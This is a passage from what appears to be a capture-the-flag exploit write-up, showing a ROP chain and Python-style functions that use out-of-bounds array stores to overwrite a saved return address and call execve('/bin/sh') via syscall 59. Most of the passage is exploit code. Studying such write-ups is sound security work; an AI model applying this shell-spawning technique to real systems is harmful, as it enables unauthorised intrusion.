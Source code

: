 ```python
gadget1+6 # address of pop rdx
0x0 # rdx
0x0 # rsi
array_stack_addr+8 # rdi, points to beginning of array data
59 # rax, syscall number
0x41414141 # rbp
putc+0x1c # address of syscall
```

### Getting a shell

We have leaks, we have our ROP chain, now we only need to actually use everything!
To that end, we have to ensure that the stack frame of the function where we perform the ROP in, is actually low enough so that we can overwrite everything.
Finally, we also have to pay careful attention of any arguments passed in. Since those are passed on the stack, we have to save them in local variables before performing our stack manipulations.
Otherwise, the stack manipulations will overwrite the arguments.
Lastly, I also store `/bin/sh` in the array, since we have the address to that handy and can point rdi to that.

The final exploit functions are as follows:

```python
# 993 is location of saved rip for returning from this function!
def do_rop_deeper(a, array_addr, gadget_addr, syscall_addr):
    e = 0x45454545
    a2 = a
    array_addr2 = array_addr
    gadget_addr2 = gadget_addr
    syscall_addr2 = syscall_addr
    f = 0x46464646
    bin_sh = 0x6e69622f
    # necessary, otherwise gcc complains about too large constants :/
    bin_sh = bin_sh | (0x0068732f * 65536 * 65536)
    print_arr(a)
    store(a2, 993, gadget_addr2)
    store(a2, 994, 0) # rdx
    store(a2, 0, bin_sh)
    store(a2, 995, 0) # rsi
    store(a2, 996, array_addr2 + 8) # rdi
    store(a2, 997, 59) # rax = syscall number
    store(a2, 998, 0x41414141) # rbp
    store(a2, 999, syscall_addr2)

def do_rop(a, array_addr, gadget_addr, syscall_addr):
    do_rop_deeper(a, array_addr, gadget_addr, syscall_addr)
```

The indexes into our array were again obtained by printing and some trial and error :).

## Final exploit payload
